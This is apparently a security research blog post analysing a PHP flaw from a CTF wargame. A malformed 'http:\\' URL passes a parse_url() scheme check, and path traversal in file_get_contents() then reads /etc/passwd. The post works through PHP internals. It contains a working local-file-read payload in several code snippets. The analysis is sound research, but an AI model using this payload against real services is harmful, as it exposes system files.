 ```yaml
---
title: 'PHP: The issue between parse_url and real file path'
metaAlignment: center
coverMeta: out
thumbnailImagePosition: left
date: 2019-08-28 13:58:58
categories:
    - Research
thumbnailImage: cover.png
keywords:
    - PHP
    - parse_url
    - vulnerability
    - LFR
tags:
    - PHP
    - LFI
---
```

Use `parse_url($url)` to check `$url`'s scheme and pass `$url` to `file_get_contents()` will lead to LFR issue.
<!-- more --><!-- toc -->

## The story
Below is a snippet modified from [DEVCORE](https://devco.re) Wargame at HITCON CMT 2019:
```php
<?php
    $url = "http://localhost/";
    $parsed_url = parse_url($url);
    if ($parsed_url['scheme'] === 'http' || $parsed_url['scheme'] === 'https') {
        die(file_get_contents($url));
    }
?>
```

In the original challenge, it's a simple proxy service in blackbox. `$url` is get from `$_POST['url']`, only allow HTTP or HTTPS protocal by using `parse_url()` to check `$url`.

It's a classical SSRF challenge until we need to read the local file with only HTTP/HTTPS. The exploit is something like this:
```php
<?php
    $url = "http:\\localhost/../../../../../etc/passwd";
    $parsed_url = parse_url($url);
    if ($parsed_url['scheme'] === 'http' || $parsed_url['scheme'] === 'https') {
        die(file_get_contents($url));
    }
?>
```

Wait, what? `http:` with double backslashes `\\` ? How can this malformed url pass the `parse_url()` scheme check and lead to local file read problem?

## Interesting about parse_url()
Here is a normal url pass to `parse_url()`
```php
var_dump(parse_url("http://localhost/../../../../../etc/passwd"));
```

```php
array(3) {
  ["scheme"]=>
  string(4) "http"
  ["host"]=>
  string(9) "localhost"
  ["path"]=>
  string(26) "/../../../../../etc/passwd"
}
```
The scheme, host and path are all parsed correctly. How about malformed url with double backslashes?

```php
var_dump(parse_url("http:\\localhost/../../../../../etc/passwd"));
```

```php
array(2) {
  ["scheme"]=>
  string(4) "http"
  ["path"]=>
  string(36) "\localhost/../../../../../etc/passwd"
}
```
As you can see, scheme is still parsed as `http` but no host value parsed, the remaining string are all parsed as path.

Here comes a problem, `parse_url()` is successed without any error even warning, but apparently the parsed result is not what we expected. So it pass the sheme check and move on to `file_get_content()` function.

## Dig into PHP source code
Out of curiosity, I decided to dig into PHP's C source code to see how `file_get_contents()` work with this path `http:\\localhost/../../../../../etc/passwd`.

My environment is Ubuntu Desktop 18.04 with self-compiled PHP 7.3.8 for gdb debug.
```sh
$ git clone http://git.php.net/repository/php-src.git
$ cd php-src
$ git checkout php-7.3.8
$ ./buildconf

# In order to debug PHP source code
# --enable-debug must toggled
# --prefix modify to your custom install location
$ ./configure --disable-all --enable-debug --prefix=/home/theo/Desktop/php-7.3.8
$ make
$ make install
```

Test code: 
```php
<?php
    $url = "http:\\localhost/../../../../../etc/passwd";
    $parsed_url = parse_url($url);
    if ($parsed_url['scheme'] === 'http' || $parsed_url['scheme'] === 'https') {
        die(file_get_contents($url));
    }
?>
```

The problem is located at `Zend/zend_cirtual_ced.c tsrm_realpath_r()`. This is a recursive function that traversing the entire path string to see if it's containing `/.` or `/..` at the end and remove them. For example our malicious path `http:\\localhost/../../../../../etc/passwd` will expand to `/home/theo/Desktop/http:\\localhost/../../../../../etc/passwd` according to your php-cli's current working path before pass into `tsrm_realpath_r()`.

Snippet of `tsrm_realpath_r()`:
```c
...
    if (i == len ||
    	(i + 1 == len && path[i] == '.')) {
    	/* remove double slashes and '.' */
    	len = EXPECTED(i > 0) ? i - 1 : 0;
    	is_dir = 1;
    	continue;
    } else if (i + 2 == len && path[i] == '.' && path[i+1] == '.') {
    	/* remove '..' and previous directory */
    	is_dir = 1;
    	if (link_is_dir) {
    		*link_is_dir = 1;
    	}
    	if (i <= start + 1) {
    		return start ? start : len;
    	}
    	j = tsrm_realpath_r(path, start, i-1, ll, t, use_realpath, 1, NULL);
...
```

Because it only look for `/.` and `/..`, it will threat `http:\\localhost` as an unnecessary leading directory as well as `Desktop` , `theo`, and so on. Then remove these unnecessary leading directory  according to how many `/..` we have in path string. In this case we will get `/etc/passwd` as our final file real path, lead to a Local-File Read vulnerability.